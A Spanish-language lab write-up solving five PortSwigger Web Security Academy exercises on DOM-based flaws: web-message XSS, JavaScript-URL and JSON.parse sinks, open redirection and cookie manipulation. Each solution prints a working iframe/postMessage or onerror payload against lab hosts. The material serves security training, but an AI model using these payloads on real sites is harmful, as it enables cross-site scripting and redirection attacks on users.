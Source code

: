 # DOM-based vulnerabilities

## Lab: DOM XSS using web messages

### Enunciado

Este laboratorio demuestra una vulnerabilidad sencilla de mensajes web. Usa el servidor de exploits para enviar un mensaje al sitio objetivo que provoque la ejecución de la función `print()`.

### Resolución

Vemos el código fuente y vemos una función **innerHTML** asigna directamente el contenido al elemento **div** con id **ads**.\
Si **e.data** contiene código HTML o JavaScript, **el navegador lo interpretará y ejecutará**.

Además, **observamos que la respuesta no incluye la cabecera `x-frame-options`:**

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Esto permite **incrustar el sitio en un iframe**.

{% embed url="https://developer.mozilla.org/es/docs/Web/API/Window/postMessage" %}

**Con esa base, podemos crear un HTML malicioso como este:**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=alert(XSS)>','*')">
</iframe>
```

Pero para **resolver el laboratorio**, usaremos el payload que dispara **print():**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
</iframe>
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and a JavaScript URL

### Enunciado

Este laboratorio demuestra una vulnerabilidad de redirección basada en el DOM que se activa mediante web messaging. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y que ejecute la función `print()`.

### Resolución

Vemos el código fuente.&#x20;

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

En este caso, **el procesamiento del web message es vulnerable a XSS basado en DOM**, porque **el event listener no valida correctamente el origen de los mensajes recibidos ni las propiedades y funciones que usa.**

Además, **identificamos un&#x20;**_**sink**_**&#x20;peligroso** `location.href`que permite redirigir a otra página. Sin embargo, **antes de hacer la redirección**, el código verifica que los datos del mensaje contengan **http:** o **https.**

**Con esta información, podemos preparar un HTML malicioso** que use un `<iframe>` y la función **postMessage()** para enviar datos al listener vulnerable en la página objetivo:

```html
<html>
  <body>
    <iframe src="https://0a2b0071046a9d6681aec51300f90043.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*');"></iframe>
  </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and `JSON.parse`

### Enunciado

Este laboratorio utiliza web messaging y analiza el mensaje como JSON. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y ejecute la función `print()`.

### Resolución

Vemos el código fuente.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

En este caso, **hay un event listener que recibe mensajes web y los interpreta como datos JSON usando `JSON.parse`**. El problema es que **el listener no valida correctamente el origen del mensaje**, por lo que acepta cualquier entrada.

Dentro del código, hay un `switch` con un caso llamado **`load-channel`**, que **cambia el atributo `src` de un elemento `<iframe>`**. Esto convierte ese atributo en un **sink peligroso**.

Con esta información, podemos **crear un HTML malicioso con un `<iframe>`** y usar `postMessage()` para enviar un mensaje manipulado al listener vulnerable.\
El listener tomará el contenido y lo pasará al sink en la página principal:

```javascript
postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}", "*")
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Creamos el siguiente paylaod.

```
<html>
    <body>
        <iframe src="https://0ae200cd04519f0c824b014900eb0008.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*");'></iframe>
    </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based open redirection

### Enunciado

Este laboratorio contiene una vulnerabilidad de redirección abierta basada en DOM (DOM-based open-redirection). Exploita esta vulnerabilidad y redirige a la víctima hacia el servidor de exploits.

### Resolución

Vemos el código fuente de los post.

<figure><img src="../../.gitbook/assets/image (1505).png" alt=""><figcaption></figcaption></figure>

Verifica si el objeto **location** contiene **url=**[**http://loquesea.com**](http://loquesea.com) o **url=**[**https://loquesea.com**](https://loquesea.com). Si encuentra ese parámetro, **asigna el valor a `location.href`** para redirigir a esa dirección.

<figure><img src="../../.gitbook/assets/image (1506).png" alt=""><figcaption></figcaption></figure>

Es **vulnerable a redirección abierta basada en DOM**.

Para **explotarla**, podemos **añadir el payload como parámetro GET**:

```
/post?postId=9&url=https://exploit-0a6200ff03db6e4e8148c45501ce0070.exploit-server.net/
```

Así, **forzamos la redirección** a nuestro servidor de exploits.

<figure><img src="../../.gitbook/assets/image (1508).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1507).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based cookie manipulation

### Enunciado

Este laboratorio demuestra una manipulación de cookies en el lado del cliente basada en DOM. Inyecta una cookie que provoque un ataque XSS en otra página y ejecute la función `print()`. Para ello, deberás usar el servidor de exploits para redirigir a la víctima a las páginas correctas.

### Resolución

Vemos el código fuente de los productos.

<figure><img src="../../.gitbook/assets/image (1509).png" alt=""><figcaption></figcaption></figure>

Aquí vemos que hay un **sink peligroso**: `document.cookie`. La **fuente** de datos (input controlado por el atacante) es **`window.location`**.

Esto significa que **se establecerá una nueva cookie** llamada `lastViewdProduct`, **usando como valor la propiedad `window.location`**.

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1510).png" alt=""><figcaption></figcaption></figure>

Cuando actualizamos la página, **se genera dinámicamente un nuevo enlace `<a>`** con el atributo **href** igual a **`window.location`**.

Esto significa que **podemos inyectar código malicioso en la URL**.

```
/product?productId=1&payload='><img src=errorpls onerror="print()">
```

Al incluir este payload, **cerramos el atributo href y añadimos un elemento `<img>` con un evento `onerror` que ejecuta `print()`.**

<figure><img src="../../.gitbook/assets/image (1511).png" alt=""><figcaption></figcaption></figure>

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1512).png" alt=""><figcaption></figcaption></figure>

Sabiendo esto ya podemos crear el payload HTML.

```
<html>
    <body>
        <iframe src="https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net/product?productId=1&payload=%27%3E%3Cimg%20src%3Derrorpls%20onerror%3D%22print%28%29%22%3E" onload="if(!window.triggerXSSPayload)this.src='https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net';window.triggerXSSPayload=1;"></iframe>
    </body>
</html>
```

Este **payload** generará un **elemento `<iframe>`** apuntando a nuestra URL con el payload que establece la cookie. Cuando se cargue, **verificamos si se activó el XSS**.

Si **no se dispara**, entonces **cambiamos el atributo `src` del `<iframe>`** para que apunte a la **página principal del sitio vulnerable**.

De este modo, **forzamos a que se cargue la cookie inyectada y se ejecute el payload XSS.**

<figure><img src="../../.gitbook/assets/image (1513).png" alt=""><figcaption></figcaption></figure>

